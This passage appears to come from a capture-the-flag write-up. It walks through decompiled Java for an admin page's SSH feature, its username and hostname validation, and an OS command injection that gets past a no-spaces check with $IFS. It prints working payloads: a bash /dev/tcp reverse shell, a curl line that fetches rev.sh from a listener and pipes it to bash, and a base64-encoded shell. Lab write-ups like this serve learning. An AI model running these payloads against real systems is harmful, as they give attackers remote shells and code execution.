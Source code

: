 ```

            });
        } catch (IllegalArgumentException var10) {
            rbuilder.append(var10.getMessage());
        } catch (Exception var11) {
            rbuilder.append("ssh: Cannot connect to the host");
        } finally {
            response.sendRedirect(rbuilder.toString());
        }

    }
```
Corresponding the input fields on the admin page. Let's look at the sanitizations:
```
// Regex to match for host
private final Pattern HOST_PATTERN = Pattern.compile("^(?=.{1,255}$)[0-9A-Za-z](?:(?:[0-9A-Za-z]|-){0,61}[0-9A-Za-z])?(?:\\.[0-9A-Za-z](?:(?:[0-9A-Za-z]|-){0,61}[0-9A-Za-z])?)*\\.?$");

// Can't contain space
private void validateUserName(String username) {
        if (username.contains(" ")) {
            throw new IllegalArgumentException("Username can't contain whitespaces!");
        }
    }

// Check matching regex
private void validateHost(String host) {
        if (!this.HOST_PATTERN.matcher(host).matches()) {
            throw new IllegalArgumentException("Invalid hostname!");
        }
    }
```
After consulting with ChatGPT, I concluded that the regex cannot be bypass, and it's easier to OS command injection with the username field. So I search up how to bypass space filter for OS command injection, and again [HackTrick](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) is goat (as always). The main conclusion is that we can represent spaces as $IFS, which is the internal field separator variable. There's this bracket trick as well, I recommend you to read it up in the HackTrick link.

Time for reverse shell right? On pwnbox I hosted a listener at port 9999, and I tried doing the short bash reverse shell directly on the username.
```
username=;/bin/bash$IFS-i$IFS>&$IFS/dev/tcp/[IP]/9999$IFS0>&1;
```
Had to get some help to get it to work, here's the payload and the contributors:
```
# Consulting other ppl's writeups
# First host a server that has a rev.sh file on [IP]:8888, then the payload would be:
username=;curl$IFS10.10.14.15:8888/rev.sh$IFS|$IFSbash;

# Consulting Ethical Hackers of Purdue people
username=;echo$IFS<base64 bash shell>|base64$IFS-d|bash
# They also suggested using the brackets as well
```
Got the shell, current user is app, go into home and there's user josh. But let's go back a bit to how to discover that the web app is vulnerable to OS command injection.
First thing: we get the error returned fully with the ?error parameter.
Second: We get invalid host if we don't match the regex. It can be a rabbithole trying to bypass the regex, or if it's possible it's gonna take a while while.
Thirdly: If our username has spaces, it will tell.

